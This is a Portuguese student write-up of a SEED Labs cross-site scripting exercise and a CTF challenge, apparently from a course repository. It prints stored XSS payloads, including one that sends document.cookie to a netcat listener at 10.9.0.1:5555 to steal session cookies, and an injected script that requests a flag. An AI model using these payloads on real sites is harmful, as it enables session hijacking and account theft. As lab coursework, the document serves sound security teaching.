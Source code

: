 # Trabalho realizado na Semana #10

## Tarefa 1
Efetuou-se o *log in* na plataforma http://www.seed-server.com sob o perfil de Alice forncido. Para efetuar o XSS, alterou-se a secção *Brief Description* para o código indicado. 

![/imgs10/brief.png](/imgs10/brief.png)

Imediamente após o guardar das alterações, como esperado, obteve-se o *pop-up*:

![/imgs10/popup.png](/imgs10/popup.png)

Experimentou-se também com o exemplo usando um *form* e apesar de apenas se usar um *link* exemplificativo, pode comprovar-se que efetivamente funcionaria: 

![/imgs10/withForm.png](/imgs10/withForm.png)

## Tarefa 2

Alterou-se novamente a secção *Brief Description* desta vez para:
``` js
<script>alert(document.cookie);</script>
```

Como resultado, surgiu o *pop up* com as *cookies* do utilizador mal as alterações foram guardadas.

![/imgs10/cookies.png](/imgs10/cookies.png)

## Tarefa 3

Inicialmente, na *shell*, correu-se o seguinte comando por forma a iniciar o servidor TCP:
``` shell
nc -lknv 5555
```

Seguidamente mudou-se *Brief Description* para efetuar o ataque:

``` js
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >'); </script>
```

Após guardar as alterações no perfil, verificou-se a chegada das *cookies* do utilizador autenticado, neste caso, da Alice ao terminal onde se tinha iniciado o servidor.

![/imgs10/cookiesAlice.png](/imgs10/cookiesAlice.png)

Por forma a melhor testar a solução encontrada, efetuou-se a autenticação de Boby e acedeu-se ao perfil de Alice.

Sem surpresa, chegou ao terminal as cookies de Boby.

![/imgs10/cookiesBoby.png](/imgs10/cookiesBoby.png)


## Tarefa 4

## CTF - Desafio 1
O enunciado sugere que o formulário de se procurem fragilidades no formulário de submissão. 

Tentou-se *SQLInjection* sem sucesso. Com mais sucesso, ao colocar 
``` js
<script> alert("hello");</script>
```

surgiu no ecrã :

![/imgs10/alert.png](/imgs10/alert.png)

Pode-se assim concluir que o *site* é vulnerável a *XSS*.

Surgiu assim a questão de que código injetar. Reparou-se num botão muito sugestivo *Give the flag*.

Desta forma tentou-se replicar o comportamento deste botão em *JavaScript*. 

Assim, injetou-se o seguinte código no formulário: 

``` js
<script> getFlag = function () {
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "POST", "");
    xmlHttp.send("giveflag");
    return xmlHttp.responseText; }; 
    console.log(getFlag())
    </script>
```

Inicialmente, nada surgiu, mas, mal o pedido foi avaliado, a *flag* surgiu no ecrã

![/imgs10/flag1.png](/imgs10/flag1.png)


## CTF - Desafio 2